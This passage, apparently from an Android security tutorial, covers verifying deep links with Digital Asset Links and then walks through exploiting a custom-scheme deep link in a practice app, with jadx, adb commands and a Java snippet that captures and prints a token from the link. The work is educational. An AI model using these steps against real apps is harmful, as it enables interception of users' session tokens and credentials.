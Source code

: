 #### 2. Add Verification for Your Deep Links

* **Configure verification:** Request verification of app links and publish a Digital Asset Links JSON file on your website. (e.g https://evil.com/.well-known/assetlinks.json)
*   **Example:**

    ```json
    {
        "relation": ["delegate_permission/common.handle_all_urls"],
        "target": {"namespace": "android_app", "package_name": "com.example.app", "sha256_cert_fingerprints": ["..."]}
    }
    ```

#### 3. Use Android App Links Assistant

* **Tool in Android Studio:** Guides you through the steps required to create Android App Links.

***

### Exploitation of Deep Links

### App 1: DeepLin-app

**Step 1:** Decompile the app using tools like Jadx.

*   **Command:**

    ```bash
    jadx -d output_folder DeepLin-app.apk
    ```

**Step 2:** Open `AndroidManifest.xml` to identify intent filters.

**Found Intent Filter:**

```xml
<intent-filter>
    <action android:name="android.intent.action.VIEW"/>
    <category android:name="android.intent.category.DEFAULT"/>
    <category android:name="android.intent.category.BROWSABLE"/>
    <data android:scheme="holiday"/>
</intent-filter>
```

**Exploit via adb:**

```bash
adb shell am start -a android.intent.action.VIEW -d "holiday://whatever.login/test?token=2100537c6456cd8a437f7734fad189a8"
```

**Exploit via PoC:**

```java
Uri deepLinkURL = getIntent().getData(); 
System.out.println("Credentials: " + deepLinkURL.toString());
```
